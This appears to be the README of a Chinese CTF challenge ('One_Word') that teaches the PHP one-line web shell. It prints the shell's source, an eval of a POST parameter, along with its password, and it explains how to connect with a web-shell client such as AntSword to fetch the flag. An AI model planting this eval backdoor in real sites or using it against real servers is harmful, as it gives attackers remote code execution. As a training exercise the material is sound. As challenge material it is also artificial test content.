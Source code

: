 # One_Word
* 题目简介：嘘！连上就有flag，偷偷告诉你连接的密码是` ZSCTF`。

* HINT：源码：
```php
<?php
@eval($_POST['ZSCTF']);
?>`
```
* PS：HINT在比赛进行到一半仍较少人做出该题时放出

* 解法：通过查看提供的密码使用蚁剑或者其他工具连上index.php，下载处于根目录下的flagXXXXX文件，获取flag

* 考点：PHP一句话木马

* 题目搭建：运行`build_docker.sh` 一键搭建。flag为静态，生成后会在根目录下。`entrypoint.sh`脚本会随机修改flag文件的名字，名字为flagXXXXX，请酌情修改脚本。
